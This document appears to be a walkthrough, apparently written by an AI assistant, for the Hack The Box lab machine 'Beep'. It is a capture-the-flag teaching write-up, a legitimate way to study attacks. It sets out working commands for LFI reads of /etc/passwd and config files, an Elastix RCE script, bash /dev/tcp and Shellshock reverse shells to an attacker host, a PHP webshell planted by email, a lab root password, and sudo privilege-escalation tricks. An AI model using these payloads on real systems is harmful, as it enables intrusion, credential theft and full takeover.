 Here’s your full **HTB: Beep** command walkthrough 🧠, cleanly organized by phase with all five root paths and key enumeration steps:

---

# 🚨 HTB: Beep — Command Walkthrough

## 🛰️ Recon

### 🔍 Full TCP Port Scan
```bash
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.7
```

### 🔍 Targeted Script Scan
```bash
nmap -sC -sV -p 22,25,80,110,111,143,443,745,993,995,3306,4190,4445,4559,5038,10000 -oA nmap/scriptstcp 10.10.10.7
```

### 🔍 Scan for SSL Protocols
```bash
sslscan 10.10.10.7
```

---

## 🌐 Web Enumeration

### 🔍 HTTPS Redirect from Port 80
- Access via: `https://10.10.10.7/`

### 🔍 Directory Bruteforce
```bash
dirsearch.py -u https://10.10.10.7/ \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-e txt,php -t 50
```

> Notable: `/admin`, `/vtigercrm`, `/recordings`, `/configs`, `/mail`, `/panel`

---

## 🗂️ Local File Inclusion (LFI)

### 🔍 Exploit LFI
```bash
curl "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/passwd%00&module=Accounts&action"
```

---

## 📥 Credential Collection

### 📁 Read Config for Passwords
```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action
```

---

## ✉️ SMTP User Discovery

### 📫 VRFY with Telnet
```bash
telnet 10.10.10.7 25
EHLO test
VRFY fanis
VRFY cyrus
```

---

## 🧑‍💻 Exploit Paths

---

## [Path #1] 💥 RCE via 18650.py (Elastix)

### 🔍 Identify Extension
```bash
svwar -m INVITE -e100-999 10.10.10.7
```

### 🛠️ Patch Python Script for TLSv1.0
```python
ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE
urllib.urlopen(url, context=ctx)
```

### ⚙️ Run Exploit
```bash
python2 18650.py
```

### 🐚 Listener
```bash
nc -lnvp 443
```

---

## [Path #2] 🌐 Webmin Login

### 🔑 Login
- URL: `https://10.10.10.7:10000`
- Creds: `root / jEhdIekWmdjE`

### 🧨 Reverse Shell via Scheduled Command
```bash
bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"
```

### 🐚 Listener
```bash
nc -lnvp 443
```

---

## [Path #3] 🔐 SSH as root

```bash
ssh root@10.10.10.7
# Password: jEhdIekWmdjE
```

---

## [Path #4] ☠️ Shellshock via Webmin CGI

### 🧪 Proof of Concept
```http
User-Agent: () { :; }; ping -c 1 10.10.14.2
```

### 🐚 Reverse Shell Payload
```http
User-Agent: () { :; }; bash -i >& /dev/tcp/10.10.14.2/8081 0>&1
```

### 🐚 Listener
```bash
nc -lnvp 8081
```

---

## [Path #5] 📧 Webshell Upload via Email + LFI

### 📤 Send PHP Shell via Email
```bash
swaks --to asterisk@localhost \
--from 0xdf@0xdf.htb \
--header "Subject: shell" \
--body '<?php system($_REQUEST["cmd"]); ?>' \
--server 10.10.10.7
```

### 🔍 Access Webshell via LFI
```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action&cmd=id
```

---

## 🛗 Privilege Escalation

### [1] 🚪 `nmap` Interactive Shell
```bash
sudo nmap --interactive
nmap> !bash
```

### [2] 📦 SUID Binary Trick via `chmod`
```bash
sudo chmod 4755 /bin/bash
bash -p
```
